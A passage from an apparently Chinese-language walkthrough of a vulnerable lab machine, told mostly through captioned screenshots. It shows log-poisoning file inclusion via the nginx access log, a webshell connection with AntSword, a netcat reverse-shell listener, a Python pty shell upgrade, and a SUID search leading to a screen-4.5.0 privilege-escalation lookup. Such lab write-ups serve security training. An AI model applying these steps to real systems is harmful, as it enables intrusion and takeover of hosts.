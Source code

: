 进行测试，看是否外部命令能够正常执行

执行成功

![20](https://havocykp.github.io/assets/images/img_blog7/20.png)

使用蚁剑连接

![21](https://havocykp.github.io/assets/images/img_blog7/21.png)

连接成功

![22](https://havocykp.github.io/assets/images/img_blog7/22.png)



反弹shell

通过nc命令直接进行shell反弹

![23](https://havocykp.github.io/assets/images/img_blog7/23.png)

监听端口：nc -nlvp 1234 

![24](https://havocykp.github.io/assets/images/img_blog7/24.png)

浏览器访问：<http://192.168.2.133/thankyou.php?file=/var/log/nginx/access.log>

![25](https://havocykp.github.io/assets/images/img_blog7/25.png)

开始监听

![26](https://havocykp.github.io/assets/images/img_blog7/26.png)

切换到交互模式shell

```python
命令：python -c 'import pty;pty.spawn("/bin/bash")'
```

![27](https://havocykp.github.io/assets/images/img_blog7/27.png)

查看具有特殊权限的二进制文件

查找一下可以用root权限运行的命令

```javascript
命令：find / -perm -u=s -type f 2>/dev/null
```

![28](https://havocykp.github.io/assets/images/img_blog7/28.png)

这里发现一个 screen-4.5.0 这个特殊文件

在parrot中使用searchsploit命令对screen-4.5.0漏洞进行搜索

![29](https://havocykp.github.io/assets/images/img_blog7/29.png)
